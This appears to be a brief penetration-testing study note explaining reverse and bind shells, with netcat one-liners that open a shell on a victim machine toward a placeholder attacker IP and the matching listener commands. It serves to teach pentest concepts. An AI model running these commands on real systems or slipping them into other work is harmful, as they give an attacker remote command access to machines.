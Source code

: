 
Reverse shell most common and victim connects to attacker who listens for connection (mostly used for internal pen tests, used 95% of time)

Bind shell attacker connects to target victim listening for connection (mostly used for external pen tests, sometimes reverse shells dont work.)
Shell = access to machine

Reverse Shell:
Attacker `nc -nvlp 4444`
Victim: `nc <IP> 4444 -e /bin/bash`

Bind shell:
Victim: `nc -nvlp 4444 -e /bin/bash`
Attacker: `nc <IP> 4444`